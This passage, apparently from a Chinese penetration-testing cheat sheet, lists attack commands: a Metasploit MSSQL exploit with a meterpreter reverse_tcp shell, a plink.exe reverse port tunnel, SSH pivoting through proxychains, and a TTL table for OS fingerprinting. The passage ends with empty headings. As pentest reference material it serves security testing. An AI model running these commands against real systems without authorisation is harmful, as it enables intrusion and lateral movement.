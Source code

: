 ```text
msf > use exploit/windows/mssql/mssql_payload
msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp
```

## 网络

### Plink.exe 隧道

PuTTY Link 隧道

转发运程端口到本地地址：

```text
plink.exe -P 22 -l root -pw "1337" -R 445:127.0.0.1:445 REMOTE-IP
```

### 跳板（Pivoting）

#### SSH 跳板（ssh Pivoting）

```text
ssh -D 127.0.0.1:1010 -p 22 user@pivot-target-ip
```

需在`/etc/proxychains.conf` 添加sock4 `127.0.0.1 1010`

利用SSH跳板跨越网络

```text
ssh -D 127.0.0.1:1010 -p 22 user1@ip-address-1
```

需在`/etc/proxychains.conf` 添加sock4 `127.0.0.1 1010`

```text
proxychains ssh -D 127.0.0.1:1011 -p 22 user1@ip-address-2
```

在`/etc/proxychains.conf` 添加sock4 `127.0.0.1 1011`

#### Meterpreter Pivoting

### TTL 指纹识别

| 操作系统 | TTL 值 |
| :--- | :--- |
| Windows | `128` |
| Linux | `64` |
| Solaris | `255` |
| Cisco / Network | `255` |

### IPv4 速查
